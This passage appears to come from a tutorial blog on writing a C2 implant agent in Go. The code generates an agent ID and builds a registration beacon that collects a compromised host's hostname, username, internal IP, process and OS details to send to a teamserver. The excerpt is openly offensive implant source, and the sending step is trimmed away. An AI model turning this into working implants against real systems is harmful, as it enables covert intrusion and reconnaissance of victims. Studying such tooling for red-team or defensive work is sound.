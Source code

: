 ```go
func main() {
	rand.Seed(time.Now().UnixNano())
	agentId = genHeader(4)
}
```

Here, we set the "magic bytes" to be the byte representation of the string 'gogo', because apparently the magic bytes must be printable (definitely didn't give me an hour of debugging to work through). The `genHeader()` function will generate a random 4 character string of lowercase letters. We're seeding the randomness by the current time, which is technically a [bad thing](https://crypto.stackexchange.com/questions/18207/is-it-safe-to-seed-a-random-number-generator-from-system-time), but the randomness isn't being applied to anything critical like encryption, so it doesn't matter. From here, since we're using HTTP(S) as our callback protocol, we need to build up the JSON that we'll send in our POST request to give the teamserver information about our host.

```go
func registerAgent(url string, magic []byte, agentId string) string{
	host, err := sysinfo.Host()
	hostInfo := host.Info()
	checkError(err)
	proc, _ := sysinfo.Self()
	procInfo, _ := proc.Info()

	hostname := hostInfo.Hostname
	currentuser, _ := user.Current()
	procPath, _ := os.Executable()

	registerDict := map[string]string{
		"AgentID": agentId,
		"Hostname": hostname,
		"Username": currentuser.Username,
		"Domain": "",
		"InternalIP": utils.FindNotLoopback(hostInfo.IPs),
		"Process Path": procPath,
		"Process ID": strconv.Itoa(procInfo.PID),
		"Process Parent ID": strconv.Itoa(procInfo.PPID),
		"Process Arch": "x64",
		"Process Elevated": "0",
		"OS Build": hostInfo.OS.Build,
		"OS Arch": hostInfo.Architecture,
		"Sleep": strconv.Itoa(c.SleepTime),
		"Process Name": procInfo.Name,
		"OS Version": hostInfo.OS.Name + " " + hostInfo.OS.Version,
	}

	dat, _ := json.Marshal(registerDict)
	requestDat := `{"task":"register","data":` + string(dat) + "}" // there was definitely a better way to do this but shhhhh

	// the size part needs to be in byte representation
	// python really spoils us huh
	size := len(requestDat)+12
	sizeBytes := make([]byte, 4)
	binary.BigEndian.PutUint32(sizeBytes, uint32(size))

	// agentHeader = sizeBytes + magicBytes + agentId
	agentHeader := append(sizeBytes, magic...)
	agentHeader = append(agentHeader, []byte(agentId)...)
	// [...trim...]
```
